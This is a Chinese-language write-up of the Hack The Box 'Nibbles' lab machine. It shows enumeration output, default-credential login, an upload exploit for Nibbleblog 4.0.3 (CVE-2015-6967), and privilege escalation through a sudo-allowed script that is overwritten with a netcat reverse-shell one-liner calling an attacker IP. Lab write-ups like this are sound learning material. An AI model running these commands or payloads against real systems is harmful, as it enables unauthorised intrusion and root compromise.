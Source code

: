 ## namp

```Bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```



```Bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



## 80

看页面源码，指向另一个目录

![](https://secure2.wostatic.cn/static/khhP3JtMHddA8JCYJPKr3A/image.png?auth_key=1677500199-mbFXenTWJFd3XhYS5fxT8v-0-9a51d5d118de641cb52bda0402f8f027)

google下nibbleblog是一个博客系统

```Bash
walle@walle:~/machines/linux/nibbles$ searchsploit  nibble
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                       | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)        | php/remote/38489.rb

```

需要确认下版本信息，目录爆破一下 这里爆破加不加文件名后缀的区别非常大。

```Bash
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
```

- 从README页面中可以确认版本为 4.0.3
- 在update.php中也可以看到版本信息

searchexploit的exp必须用msf ， github中找到的脚本也需要，需要找到登录接口确认下用户名密码

```Bash
walle@walle:~/machines/linux/nibbles$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t 50 -x php,txt,sh
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,sh
[+] Timeout:                 10s
===============================================================
2023/01/03 11:05:32 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 302]
/index.php            (Status: 200) [Size: 2987]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/sitemap.php          (Status: 200) [Size: 402]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/LICENSE.txt          (Status: 200) [Size: 35148]

```

从 /admin/users.xml中确认用户名admin

- 尝试默认密码 admin/nibbles 成功
- 尝试用下hydra ，先拿到错误关键字

![](https://secure2.wostatic.cn/static/8QaZibakztjEZ7K4zK7njk/image.png?auth_key=1677500199-gZyVu4T7CRKPy3dbJWVqNg-0-027a16acdc2045683547d03a64c29854)

出来一堆都是错的，而且输入错误次数过多，被锁了黑名单，进不去了。

![](https://secure2.wostatic.cn/static/dudt1JZx14hUm9kBGoLF5L/image.png?auth_key=1677500199-sBtBn1y5r7izkkTgKFjScW-0-b5a2f50e1493f9c4897a9c4f58d546b2)



利用拿到的用户名密码，跑exp脚本，去找个php的反弹shell脚本

```Bash
walle@walle:~/machines/linux/nibbles/CVE-2015-6967$ python exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.

```

另外一个ssh监听后拿到shell



## privilege escalation

sudo -l提示有个文件root运行，根据路径去/home/nibbler下面解压一下

```Bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```



- 代码审计，运行下脚本，没有什么特殊之处
- 直接重写覆盖为一个反弹shell，sudo运行后拿到root shell

```Bash
$ cat monitor.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 7788 >/tmp/f
$ sudo /home/nibbler/personal/stuff/monitor.sh


```

## beyond root

启动shell.php 有两种方式

- 利用github脚本直接启动， 这个脚本就是把下面的手动过程做了自动化

脚本里面包含如下方法： 登录， 上传shell-post方法上传，执行shell-get方法触发，main执行命令行参数解析以及函数调用。

- 看下漏洞的产生原因，找到上传脚本的位置，手动上传后手动触发

> 脚本上传后被重命名content/private/plugins/my_image/image.php

根据这个位置访问url，或者直接在去点击下面的文件。

![](https://secure2.wostatic.cn/static/ru8pnUSJZuab81wRjvYfex/image.png?auth_key=1677500199-iC8WsjK3piVpRn7nNtFXiT-0-ef2a5a4685d33dbceeb5bde7bb9a8efb)

